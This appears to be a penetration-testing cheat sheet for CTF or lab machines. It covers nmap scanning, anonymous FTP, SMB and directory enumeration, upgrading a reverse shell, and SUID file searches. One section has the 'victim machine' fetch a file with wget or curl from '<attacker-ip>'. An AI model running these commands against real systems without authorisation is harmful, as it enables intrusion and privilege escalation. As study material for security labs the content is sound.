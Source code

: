 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Pyhton server for file transmision](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)


# Port Scanning <a name='psc'></a>

## nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p21 10.129.42.253
```
### nmap scripts
**nmap** has the option of checking if there are some known vulnerabilities for the services versions that are being used at the machine. We just need to specify the port and the target ip.
```bash
nmap -p<port> --script vuln <target_ip>
```


# FTP Port <a name='ftp'></a>

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

# Samba/SMB Port <a name='smb'></a>

## SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

# Directory Enumeration <a name='dir'></a>

## Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#wordlist example: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
#-q to don't print the errors
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out -t 200
````

- To find subdomains:
```bash
#wordlist example: /usr/share/dnsrecon/subdomains-top1mil-20000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## wfuzz
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website. Also, it can be useful for enumerate files with an specific extension.
- To find subdirectories:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ
```

- To find common files:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ.php
```


# Python server for file transmision<a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


# Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
```

# File searching <a name='fs'></a>

## find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```


